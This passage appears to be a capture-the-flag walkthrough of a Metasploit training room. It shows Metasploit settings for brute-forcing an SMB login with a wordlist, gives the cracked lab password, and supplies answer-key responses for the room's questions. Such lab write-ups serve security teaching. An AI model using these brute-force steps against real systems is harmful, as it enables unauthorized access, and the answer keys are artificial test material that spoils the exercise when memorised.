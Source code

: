 ```set RHOSTS REMOTE_IP```
<br />
```set SMBUser penny```
<br />
```set PASS_FILE /PATH/MetasploitWordlist.txt```
<br />
```run```

![image](https://user-images.githubusercontent.com/14150485/170565767-5e792e75-1670-49b0-92c7-f8d2e6bbd392.png)

The successful entry indicates that the password for ```penny``` is ```leo1234```.
```
leo1234
```

<br />
<br />

## 3. The Metasploit Database

### 3.1: No answers needed.
```
No answer needed
```

<br />
<br />

## 4. Vulnerability Scanning

### 4.1: Who wrote the module that allows us to check SMTP servers for open relay?

<br />

In Metasploit:
```
search open relay
```
![image](https://user-images.githubusercontent.com/14150485/170566518-90fb9733-9e27-4c1c-aa66-28e43251981e.png)

There is only one matching module we can use to get the information we are looking for.
```
info 0
```
Alternatively, we can type:
```
info auxiliary/scanner/smtp/smtp_relay
```
![image](https://user-images.githubusercontent.com/14150485/170566752-77c4829d-4e53-45a3-aa64-3da32038815c.png)

The ```SMTP Open Relay Detection``` module has been provided by ```Campbell Murray```.

```
Campbell Murray
```

<br />
<br />

## 5. Exploitation

### 5.1: Exploit one of the critical vulnerabilities on the target VM
```
No answer needed